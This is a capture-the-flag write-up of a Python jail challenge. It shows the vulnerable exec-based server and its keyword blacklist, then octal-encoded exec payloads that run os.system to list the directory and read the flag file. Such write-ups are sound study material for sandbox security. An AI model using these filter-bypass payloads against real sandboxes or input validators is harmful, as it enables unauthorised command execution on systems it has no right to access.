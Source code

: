 # I Want to Break Free

by HexPhoenix

I want to break free... from this Python jail. nc 143.198.184.186 45457

## Challenge

In this challenge we were given a zip file named `jailpublic.zip`. It contains 2 files, `blacklist.txt` and `jail.py`.

#### jail.py

```python
#!/usr/bin/env python3

#!/usr/bin/env python3

def server():
    message = """
    You are in jail. Can you escape?
"""
    print(message)
    while True:
        try:
            data = input("> ")
            safe = True
            for char in data:
                if not (ord(char)>=33 and ord(char)<=126):
                    safe = False
            with open("blacklist.txt","r") as f:
                badwords = f.readlines()
            for badword in badwords:
                if badword in data or data in badword:
                    safe = False
            if safe:
                print(exec(data))
            else:
                print("You used a bad word!")
        except Exception as e:
            print("Something went wrong.")
            print(e)
            exit()

if __name__ == "__main__":
    server()
```

It seems that the program will execute if it doesn't contains any string in `blacklist.txt`. So, let's take a look at `blacklist.txt`.

#### blacklist.txt

```
cat
grep
nano
import
eval
subprocess
input
sys
execfile
builtins
open
dict
exec
for
dir
file
input
write
while
echo
print
int
os
```

Since the blacklist didn't contains "exec", so we could use it to our advantages. To make it difficult to read by python, we could use another way to interpret the character. For example we can try to use octal here so the python wouldn't detect it as the string they backlisted. (Reference: [bypass-python-sandboxes](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)).

First we need to read or list what is inside the directory.
```python
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
```
If we convert those octal number to string, it will turns into: `__import__('os').system('ls')`.

![](iwanttobreakfree(ls).png)
There is `cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt` inside the directory and I think that may be the flag.

Convert our payload into ocal again and wrap it with exec(""). Now we use this payload to read the flag `"__import__('os').system('cat cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt')"`.

Payload:
```python
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\143\141\164\40\143\146\67\67\62\70\142\145\67\71\70\60\146\144\67\67\60\143\145\60\63\144\71\144\71\63\67\144\66\144\64\60\70\67\63\61\60\146\60\62\144\142\67\146\143\142\141\66\145\142\142\141\144\63\70\142\144\66\64\61\142\141\61\71\56\164\170\164\47\51")
```

Now all we need to do is just send the payload into the program
![](iwanttobreakfree(cat).png)

Flag: `kqctf{0h_h0w_1_w4n7_70_br34k_fr33_e73nfk1788234896a174nc}`